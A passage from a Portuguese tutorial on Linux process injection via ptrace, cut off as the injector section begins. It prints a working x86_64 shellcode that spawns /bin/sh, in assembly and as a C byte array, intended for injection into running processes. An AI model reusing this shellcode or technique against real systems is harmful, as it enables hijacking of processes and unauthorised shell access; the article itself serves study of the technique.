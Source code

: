 # Process Injection no Linux usando a biblioteca PTRACE

Neste artigo, vamos aprender sobre injeção de processos (Process Injection) em distribuições linux usando PTRACE

## Shellcode

Primeiramente, precisamos de um shellcode, neste estudo eu irei utilizar o meu (disponível no [_meu github_](https://github.com/Yyax13/shellcode)).

Para facilitar a compreensão, deixarei o shellcode (em asm) aqui:

```assembly x86_64
section .text
global _start

_start:
    xor rax, rax                        ; rax turns to null byte

    push rax                            ; push \0 (null byte) to the stack
    mov rbx, 0x68732f6e69622f           ; '/bin/sh' string
    push rbx

    mov rdi, rsp                        ; rdi (path) receive rbx ('/bin/sh\0')

    push rax                            ; null byte (execve require {path, NULL})
    push rdi                            ; ptr to our path
    mov rsi, rsp                        ; rsi (argv) receive
    
    xor rdx, rdx
    mov rax, 59
    
    syscall
```

E sua versão em C:

```c
unsigned char shellcode[] = {
  0x48, 0x31, 0xc0, 0x50, 0x48, 0xbb, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x73,
  0x68, 0x00, 0x53, 0x48, 0x89, 0xe7, 0x50, 0x57, 0x48, 0x89, 0xe6, 0x48,
  0x31, 0xd2, 0xb8, 0x3b, 0x00, 0x00, 0x00, 0x0f, 0x05

};

```

O .asm já foi documentado em seu próprio repositório, então não iremos perder tempo analisando o mesmo.

## O injector

Começaremos incluindo tudo que vamos precisar:
